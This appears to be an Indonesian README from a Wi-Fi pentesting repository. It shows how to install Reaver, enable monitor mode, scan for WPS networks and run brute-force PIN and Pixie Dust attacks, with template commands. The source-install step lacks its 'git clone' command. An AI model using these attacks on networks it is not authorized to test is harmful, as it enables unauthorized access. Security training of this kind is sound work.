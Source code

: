 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

1. Scan Wi-Fi WPS:

   ```
   sudo wash -i [interface]
   ```

2. Pilih Taraget
   Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

3. Jalankan Serangan

   1. Brute Force PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -vv
      ```
   2. Pixie Dust Attack

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
      ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
